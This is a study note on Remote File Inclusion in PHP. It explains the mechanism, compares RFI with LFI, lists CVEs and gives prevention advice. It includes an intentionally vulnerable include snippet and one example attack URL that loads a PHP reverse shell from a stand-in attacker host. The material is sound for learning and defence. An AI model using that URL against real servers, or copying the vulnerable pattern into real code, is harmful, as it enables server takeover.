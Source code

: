 ```yaml
---
aliases:[RFI, remote-file-inclusion]
---
```

# Remote File Inclusion Vulnerability
A type of web vulnerability that allows an attacker to force an application to include code files imported from another location (like a server controlled by an attacker).

## Mechanism:
Many coding languages used to develop web applications on the server side allow developers to include source code from other files. Some languages allow inclusion *via URL* while others allow the use of local files.

This inclusion is usually *static* which means the URL is defined in the source code and *cannot be modified*. If the developer wants a file to be included dynamically from a remote location, then it may be passed as a user input parameter.

In an #RFI vulnerability, an attacker will modify the user input to include their own malicious remote files. Most commonly happens in *PHP using the include expression* (most other languages used for web applications make it more complex to include remote files in the code).
- This ability has been deprecated in PHP since v 7.4.0

### VS. [Local File Inclusion](cybersecurity/vulnerabilites/LFI.md):
When an attacker uses the application's code to access another file *included in the same server* this is known as an #LFI vulnerability. 

LFI's are more common because:
- It includes all cases in which an attacker can access a local file where they shouldn't (not just when the developer includes a source code file)
- It is easier to do in most languages (not just PHP)
- Developers need their code to read local files more often then remote ones
- LFI also often goes hand in hand with #directory-traversal, but RFI by definition cannot lead to directory traversal because the file *is included via URL, not filepath*.

## Example of PHP RFI:
A developer wants to include a file from another server but the file is not static. This snippet is from `index.php`:
```PHP
<?PHP 
  $module = $_GET["module"];
  include $module;
?>
```

The server runs PHP v7.3.33 and the `php.ini` file includes the following parameter:
`allow_url_include = On`

This parameter (deprecated with PHP 7.4.0) allows the `include` expression to parse a URL and include a file from it. The file is taken from the `GET HTTP` request so the following module can be included:
`https://target.com/index.php?module=http://server2.target.com/welcome.php`

### Attack vector:
An attacker can manipulate the `GET` request sent to `index.php` to include a URL with a #reverse-shell script which will connect to a malicious server:
```
http://target.com/index.php?module=http://attacker.example2.com/php-reverse-shell.php
```
The applications runs the code of the reverse shell, causing [Reverse Code Execution](/cybersecurity/attacks/RCE.md) and granting the attacker access to the server's command line.

### Examples of known RFI vulnerabilities:
These are common #open-source web apps with known vulnerabilities to RFI:
1. #CVE-2018-16283: [Wechat Broadcast Plugin 1.2.0](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-16283) (WordPress plugin)
2. #CVE-2014-7228: [Joomla core](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7228) multiple RFI vulnerabilities in several versions

## Defense:
### Detection:
Look for versions of software that are known to be vulnerable to RFI. Versioning can be detected via the software's documentation, network scanners, or with tools like [software composition analysis](https://www.invicti.com/learn/software-composition-analysis-sca/) software ( #SCA).
- SCA software is non-invasive, meaning they don't need to perform mock attacks to analyze an application. Instead, they try to interact with the application while it runs in order to "fingerprint" a component or search through the apps code.

The only way to know for certain that an unknown RFI vulnerability exists in an application *is to exploit it*.
- Perform pen-testing on it
- Use a security testing tool which will automate the exploit

### Prevention:
*Avoid using user input in include expressions*: this includes URLs coming from a user to be used in #HTTP-requests, but also any other data whose source can be manipulated by users/ attackers.

If your application requires using includes, then *create a whitelist of safe files*

*Do not rely on blacklisting:* or other methods of input sanitization and validation. Attackers can bypass these types of defenses easily.

Don't use versions of PHP older than 7.4.0, and avoid using other software which is known to have vulnerabilities to RFI.

> [!Links]
> [Invicti: Remote file inclusion](https://www.invicti.com/learn/remote-file-inclusion-rfi/)


